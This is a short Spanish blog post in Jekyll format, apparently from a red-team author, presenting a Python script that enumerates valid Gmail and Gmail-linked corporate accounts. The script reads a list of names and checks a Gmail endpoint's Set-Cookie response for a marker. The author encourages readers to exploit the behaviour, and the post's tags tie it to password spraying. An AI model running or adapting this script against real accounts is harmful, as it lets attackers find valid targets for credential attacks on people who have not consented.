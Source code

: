 ```yaml
---
title:  "Enumeración de usuarios en Gmail"
date:   2023-06-18
categories: [Tools]
tags: [RedTeam,Python,Spray]
---
```

Enumeración de usuarios en Gmail: cambiando mi percepción sobre la seguridad en Google.

Hasta hace poco, creía que Google se preocupaba por la seguridad de los usuarios de su plataforma. Sin embargo, recientemente he cambiado de opinión. El siguiente script en Python permite llevar a cabo una enumeración de usuarios en Gmail o cuentas corporativas asociadas a Gmail.

Es preocupante que, además de la posibilidad de robo de sesiones mediante cookies, Google no considere la enumeración de usuarios como una vulnerabilidad significativa. En resumen, como que dicen, es para facilitarle el trabajo a los crackers, hackers, etc. 

Jay papá ¡Aprovecha el bug!. 

``` python

import requests

url = "https://mail[.]google[.]com/mail/gxlu?email="
output_file = "cookies.txt"
input_file = "correos.txt"
#Domino de la entidad
email = "@gmail.com"
qwert="COMPASS=gmail="
with open(input_file, "r") as file:
    for correo in file:
        correo = correo.strip()
        response = requests.get(url + correo + email)
        cookies = response.headers.get("Set-Cookie")
        if cookies == None:
            cookies="Vacio"
        if qwert in cookies:
            print("{} == Valido".format(correo))

```

Sé que podría ser mejor el script, pero...
![image](/genes/memes/estoyAprendiendo.png)

*(1,1)*

<!-- Check out the [Jekyll docs][jekyll] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll’s dedicated Help repository][jekyll-help]. -->